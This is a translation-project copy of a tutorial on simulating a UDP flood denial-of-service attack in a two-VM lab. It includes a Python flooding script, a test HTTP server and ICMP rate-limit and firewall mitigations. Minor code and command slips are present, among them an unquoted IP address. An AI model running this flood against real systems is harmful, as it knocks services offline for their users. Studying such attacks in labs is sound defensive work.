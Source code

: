 > * 原文地址：[How to simulate a UDP Flood DoS attack on your computer](https://levelup.gitconnected.com/how-to-simulate-a-udp-flood-dos-attack-on-your-computer-863b40c44f3f)
> * 原文作者：[RiccardoM](https://medium.com/@riccardom)
> * 译文出自：[掘金翻译计划](https://github.com/xitu/gold-miner)
> * 本文永久链接：[https://github.com/xitu/gold-miner/blob/master/article/2020/how-to-simulate-a-udp-flood-dos-attack-on-your-computer.md](https://github.com/xitu/gold-miner/blob/master/article/2020/how-to-simulate-a-udp-flood-dos-attack-on-your-computer.md)
> * 译者：
> * 校对者：

# How to simulate a UDP Flood DoS attack on your computer

![](https://cdn-images-1.medium.com/max/12048/0*5IXgILaawtazZ2Tx)

**Disclaimer: The following tutorial has only educational purposes. Perform the attack only on computers you own.**

A UDP Flood is a Denial of Service attack where the attacker sends a large number of **UDP** (User Datagram Protocol) packets towards a victim server, in order to overwhelm the server’s ability to process and respond to incoming traffic.

The attacker sends packets to the server’s IP address, choosing **random ports** as the destination. When the server receives a packet:

1. it checks if an application is listening at the specified port
2. it sees that no application is listening; this happens most of the times, as destinations are random ports
3. it responds with an **ICMP Destination Unreachable** packet

The attacker’s IP address can possibly be spoofed to prevent both their identification and the saturation of their own resources by the ICMP responses.

## Setup

In order to simulate this attack you need two virtual machines. Network cards must be configured to have their own address in the subnet. I used VirtualBox, with two instances of BunsenLabs, which is very lightweight. They are configured with a network card in bridged mode. Here are the requirements for each of the virtual machines:

* an **attacker** with python3
* a **victim** with python, version 3.7 or greater

#### Server configuration

We will run a simple HTTP server to verify that there is a drop in performance while the server is under attack. Below is the server written in Python.

```py
import sys
import time
import random
from http.server import ThreadingHTTPServer, BaseHTTPRequestHandler

class DefaultHTTPHandler(BaseHTTPRequestHandler):

  def do_GET(self):
    self.send_response(200)
    self.send_header('Content-type', 'text/plain')
    self.send_header("Cache-Control", "no-cache")
    self.end_headers()

    n = random.randint(1e7,1e8)
    self.wfile.write((("{} is " + ("" if is_prime(n) else "not ") + "a prime number").format(n)).encode("utf-8"))

def base_http_server_start(address="0.0.0.0", port=80):
    handler = DefaultHTTPHandler
    address = (address, port)
    server = ThreadingHTTPServer(address, handler, bind_and_activate=False)
    server.server_bind()
    server.server_activate()
    server.serve_forever()

def is_prime(num):
    res = True
    for i in range(2, num - 1):
        if num % i == 0:
            res = False
    return res

if __name__ == '__main__':
    print("Starting HTTP server on port 80")
    base_http_server_start()
```

This server can be reached at localhost:80. What it does is to pick a very large random number and check if it is a prime number via a deliberately very inefficient function. Thanks to this mechanism it is possible to roughly estimate the response time of the server by reloading the browser page. Response times vary from the computational capacity of your hardware, but on average they should be around 5–10 seconds.

#### Attack script

We can perform the attack with the following Python script, using sockets.

```py
import time
import socket
import random
import sys

victim_ip = 192.168.1.10
duration = 60 # in seconds

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

msg = bytes(random.getrandbits(10))
timeout = time.time() + duration
sent_packets = 0

while time.time() < timeout:
  victim_port = random.randint(1025, 65356)
  sock.sendto(msg, (victim_ip, victim_port))
  sent_packets += 1
```

In this script we can specify the IP address of our victim and the duration of the attack. Each time we send a packet we choose a different port, as explained above.

## The attack

To execute the attack we run the server and check its performance with the method described above. Next, from the attacker’s virtual machine, we run the script that performs the attack. When the machine is under attack we can see an increase in CPU usage as it is busy processing incoming traffic and responding with ICMP Destination Unreachable packets.

We can then proceed to reload the browser page and count the response time of the server. It is therefore easy to see that server performance has deteriorated significantly. The response time should be at least twice as long as under normal conditions.

## Mitigation

#### Linux settings

It is very difficult to mitigate a UDP Flood attack. It is possible to change the number of ICMP packets that the operating system sends every second. We can use these two commands in Linux, for example:

```bash
sudo sysctl -w net.ipv4.icmp_ratelimit=0
sudo sysctl -w net.ipv4.icmp_msgs_per_sec=1000
```

The first command causes the rate at which ICMP responses are sent to be set only by the parameter of the second command. In this case, therefore, with the second command, we set a rate of 1000 ICMP messages per second.

We can easily verify this by launching the attack for 10 seconds and using Wireshark on the server’s virtual machine to intercept the ICMP packets that are sent in response. We can see that in 10 seconds about 10.000 ICMP packets are sent, which is correct since we set the rate to 1000 packets per second.

![10.000 packets captured with Wireshark during a 10 seconds attack](https://cdn-images-1.medium.com/max/2000/1*Kb3xNdtJxxD0L87W9i3IJg.png)

We can try to change this parameter and check with Wireshark how the number of packets sent during 10 seconds changes. For example by indicating a rate of 1 message per second we can capture about 10 messages.

```bash
sudo sysctl -w net.ipv4.icmp_msgs_per_sec=1000
```

![10 packets captured with Wireshark during a 10 seconds attack](https://cdn-images-1.medium.com/max/2000/1*3MVskJJFtm4wKB4kT5GiYg.png)

The difficult part is choosing an appropriate value for these parameters. The optimal value depends on the hardware we have available, on our application, on the average traffic our server interacts with. If we lower the number of responses sent every second we clearly decrease the load on the server, since many more incoming requests are simply dropped, without sending the ICMP response packet and therefore using less resources. However, by lowering this parameter we run a greater risk of rejecting even legitimate requests and of not processing and managing traffic that does not come from an attack, but from real users of our server. It is therefore necessary to find a compromise to balance the two aspects.

#### Firewalls

We can also try to defend ourselves against this attack using firewalls. A firewall can block UDP packets before they reach the server. This way the server resources are not used at all. However, firewalls are also vulnerable to this type of attack: they have to process incoming traffic and they could become a bottleneck during the attack. Furthermore, if we use a stateful firewall we can easily block an attack if it always comes from the same IP address, but if the attacker spoofs their IP, all the state tables of the firewall could potentially be filled and all the available memory consumed. So firewalls are not always the solution.

## Conclusions

It is not difficult to simulate this type of attack in a few steps to better understand how it works. You can also explore its mitigation in more detail, trying different parameters, and eventually configuring the server. It is also interesting because it is a simple but powerful attack: as we have seen it is difficult to take effective countermeasures to stop it. If you are interested in a more complex attack based on UDP, take a look at [this](https://levelup.gitconnected.com/how-to-simulate-a-ntp-amplification-dos-attack-on-your-computer-72b3c6f60eb7) story, where I explain how to exploit an NTP server to amplify the traffic volume and saturate the victim’s bandwidth.

> 如果发现译文存在错误或其他需要改进的地方，欢迎到 [掘金翻译计划](https://github.com/xitu/gold-miner) 对译文进行修改并 PR，也可获得相应奖励积分。文章开头的 **本文永久链接** 即为本文在 GitHub 上的 MarkDown 链接。

---

> [掘金翻译计划](https://github.com/xitu/gold-miner) 是一个翻译优质互联网技术文章的社区，文章来源为 [掘金](https://juejin.im) 上的英文分享文章。内容覆盖 [Android](https://github.com/xitu/gold-miner#android)、[iOS](https://github.com/xitu/gold-miner#ios)、[前端](https://github.com/xitu/gold-miner#前端)、[后端](https://github.com/xitu/gold-miner#后端)、[区块链](https://github.com/xitu/gold-miner#区块链)、[产品](https://github.com/xitu/gold-miner#产品)、[设计](https://github.com/xitu/gold-miner#设计)、[人工智能](https://github.com/xitu/gold-miner#人工智能)等领域，想要查看更多优质译文请持续关注 [掘金翻译计划](https://github.com/xitu/gold-miner)、[官方微博](http://weibo.com/juejinfanyi)、[知乎专栏](https://zhuanlan.zhihu.com/juejinfanyi)。
